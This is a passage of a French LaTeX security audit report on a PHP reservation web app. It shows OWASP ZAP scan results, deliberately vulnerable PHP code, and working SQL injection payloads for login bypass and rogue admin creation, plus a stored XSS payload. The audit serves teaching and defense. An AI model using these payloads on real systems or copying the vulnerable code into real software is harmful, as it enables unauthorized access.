  
\includegraphics[width=0.85\textwidth]{ZAP_GUI.png}
  \caption{Résultats du second scan ZAP --- 16 types d'alertes dont une injection SQL (High)}
  \label{fig:zap_scan}
\end{figure}

\section{Résultats du second scan automatisé}

Le second scan actif a détecté \textbf{16 alertes} réparties sur 4 niveaux de risque.
La nouveauté majeure par rapport au premier scan est la détection automatique d'une
\textbf{injection SQL de niveau High} :

\begin{table}[H]
  \centering
  \small
  \begin{tabular}{p{8.5cm}ccc}
    \toprule
    \textbf{Alerte} & \textbf{Risque} & \textbf{Instances} & \textbf{OWASP} \\
    \midrule
    \rowcolor{red!10}
    SQL Injection --- MySQL & \textcolor{secred}{\textbf{Élevé}} & 3 & A03 \\
    \midrule
    Absence of Anti-CSRF Tokens & \textcolor{orange}{\textbf{Moyen}} & Systemic & A01 \\
    Content Security Policy (CSP) Header Not Set & \textcolor{orange}{\textbf{Moyen}} & Systemic & A05 \\
    Missing Anti-clickjacking Header & \textcolor{orange}{\textbf{Moyen}} & Systemic & A05 \\
    Parameter Tampering & \textcolor{orange}{\textbf{Moyen}} & 5 & A04 \\
    \midrule
    Cookie No HttpOnly Flag & \textcolor{blue}{\textbf{Bas}} & 5 & A02 \\
    Cookie Without Secure Flag & \textcolor{blue}{\textbf{Bas}} & 4 & A02 \\
    Cookie without SameSite Attribute & \textcolor{blue}{\textbf{Bas}} & 5 & A01 \\
    In Page Banner Information Leak & \textcolor{blue}{\textbf{Bas}} & 2 & A05 \\
    Server Leaks Info. via ``X-Powered-By'' Header & \textcolor{blue}{\textbf{Bas}} & Systemic & A05 \\
    Server Leaks Version via ``Server'' Header & \textcolor{blue}{\textbf{Bas}} & Systemic & A05 \\
    Strict-Transport-Security Header Not Set & \textcolor{blue}{\textbf{Bas}} & Systemic & A05 \\
    X-Content-Type-Options Header Missing & \textcolor{blue}{\textbf{Bas}} & Systemic & A05 \\
    \midrule
    Authentication Request Identified & \textcolor{gray}{\textbf{Info}} & 2 & --- \\
    Session Management Response Identified & \textcolor{gray}{\textbf{Info}} & 7 & --- \\
    User Agent Fuzzer & \textcolor{gray}{\textbf{Info}} & Systemic & --- \\
    \bottomrule
  \end{tabular}
  \caption{16 alertes détectées par OWASP ZAP --- second scan actif (7 mai 2026)}
\end{table}


\begin{warningbox}[Nouveautés du second scan vs premier scan]
\begin{itemize}
  \item \textbf{SQL Injection --- MySQL (High)} : détectée automatiquement sur 3 pages, confirmant
    l'exploitation manuelle réalisée dans le chapitre suivant.
  \item \textbf{Parameter Tampering (Medium)} : manipulation de paramètres HTTP non validés.
  \item \textbf{User Agent Fuzzer (Info)} : comportements différents selon le User-Agent détectés.
\end{itemize}
\end{warningbox}

\begin{infobox}[Complémentarité scan automatique / tests manuels]
Le scan actif a confirmé l'injection SQL automatiquement grâce au fuzzing. Les vulnérabilités
XSS Stored, Broken Access Control et Sensitive Data Exposure nécessitent un contexte
authentifié et ont été exploitées manuellement dans le chapitre suivant.
\end{infobox}

\newpage

%=============================================================
% CHAPITRE 3 : DÉTECTION DES VULNÉRABILITÉS
%=============================================================
\chapter{Détection et Exploitation des Vulnérabilités}

\section{Vue d'ensemble des vulnérabilités}

\begin{table}[H]
  \centering
  \small
  \begin{tabular}{clll}
    \toprule
    \textbf{\#} & \textbf{Type} & \textbf{Fichier} & \textbf{Criticité} \\
    \midrule
    1 & SQL Injection & \texttt{login.php} & \textcolor{secred}{\textbf{Critique}} \\
    2 & SQL Injection & \texttt{register.php} & \textcolor{secred}{\textbf{Critique}} \\
    3 & Stored XSS & \texttt{reserver.php} & \textcolor{orange}{\textbf{Haute}} \\
    4 & XSS (affichage) & \texttt{mes\_reservations.php} & \textcolor{orange}{\textbf{Haute}} \\
    5 & Sensitive Data Exposure & \texttt{admin/users.php} & \textcolor{orange}{\textbf{Haute}} \\
    6 & Broken Access Control & \texttt{enseignant/annuler.php} & \textcolor{orange}{\textbf{Haute}} \\
    7 & No Password Hashing & \texttt{register.php}, \texttt{login.php} & \textcolor{secred}{\textbf{Critique}} \\
    \bottomrule
  \end{tabular}
  \caption{Vulnérabilités identifiées dans l'application}
\end{table}

%------------------------------------------------------------
\section{Vuln. 1 --- SQL Injection (Login Bypass)}
%------------------------------------------------------------

\subsection{Description}

Dans \texttt{login.php}, la requête SQL est construite par concaténation directe des entrées
utilisateur sans aucune validation ni préparation :

\begin{lstlisting}[language=PHP, caption={Code vulnérable --- login.php}]
$email    = $_POST['email'];
$password = $_POST['password'];

// VULNERABLE : concatenation directe
$sql = "SELECT * FROM users WHERE email = '$email'
        AND password = '$password'";
$result = $conn->query($sql);
\end{lstlisting}

\subsection{Exploitation}

En injectant le payload suivant dans le champ \textbf{Email} :
\begin{lstlisting}
' OR '1'='1' --
\end{lstlisting}

La requête SQL devient :
\begin{lstlisting}[language=SQL]
SELECT * FROM users WHERE email = '' OR '1'='1' --'
AND password = 'anything'
\end{lstlisting}

La condition \texttt{'1'='1'} est toujours vraie, et le double tiret \texttt{--} commente
la vérification du mot de passe. L'attaquant se connecte sans credentials valides.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.75\textwidth]{SQLi_login.png}
  \caption{Saisie du payload SQL Injection dans le formulaire de connexion}
  \label{fig:sqli_login}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.85\textwidth]{SQLi_login_res.png}
  \caption{Résultat : connexion réussie sans credentials valides}
  \label{fig:sqli_login_res}
\end{figure}

\begin{warningbox}[Impact]
Un attaquant peut se connecter en tant qu'administrateur sans connaître aucun mot de passe,
accédant ainsi à toutes les données de l'application.
\end{warningbox}

%------------------------------------------------------------
\section{Vuln. 2 --- SQL Injection (Register)}
%------------------------------------------------------------

\subsection{Description}

Dans \texttt{register.php}, l'insertion en base de données est également vulnérable :

\begin{lstlisting}[language=PHP, caption={Code vulnérable --- register.php}]
$sql = "INSERT INTO users (nom, prenom, email, password, role)
        VALUES ('$nom', '$prenom', '$email', '$password',
                'enseignant')";
$conn->query($sql);
\end{lstlisting}

\subsection{Exploitation}

En injectant dans le champ \textbf{Nom} :
\begin{lstlisting}
Hacker', 'Hacker', 'hacker@admin.com', '1234', 'admin'); --
\end{lstlisting}

La requête devient une insertion créant un compte \textbf{administrateur} illégitime.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.8\textwidth]{SQLi_register.png}
  \caption{Payload SQL Injection dans le formulaire d'inscription}
  \label{fig:sqli_register}
\end{figure}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.85\textwidth]{SQLi_register_caught.png}
  \caption{Erreur SQL révélant la structure interne de la base de données (Information Disclosure)}
  \label{fig:sqli_register_error}
\end{figure}

\begin{infobox}[Double vulnérabilité]
L'erreur SQL affichée constitue elle-même une vulnérabilité d'\textbf{Information Disclosure} :
elle révèle le chemin interne du serveur (\texttt{/app/register.php:27}), la structure exacte
de la requête SQL, et la version du serveur MySQL.
\end{infobox}

%------------------------------------------------------------
\section{Vuln. 3 \& 4 --- Stored XSS}
%------------------------------------------------------------

\subsection{Description}

Dans \texttt{reserver.php}, le champ \textit{motif} est inséré en base sans filtrage.
Dans \texttt{mes\_reservations.php}, il est affiché sans échappement :

\begin{lstlisting}[language=PHP, caption={Code vulnérable --- affichage du motif}]
// reserver.php : insertion sans filtrage
$motif = $_POST['motif'];
$sql = "INSERT INTO reservations (..., motif) VALUES (..., '$motif')";

// mes_reservations.php : affichage sans echappement
<td><?= $r['motif'] ?></td>   // VULNERABLE
\end{lstlisting}

\subsection{Exploitation}

Un enseignant injecte dans le champ \textbf{Motif} lors d'une réservation :
\begin{lstlisting}[language=HTML]
<img src="random.gif" onerror=alert(5397)>
\end{lstlisting}

\begin{figure}[H]
  \centering
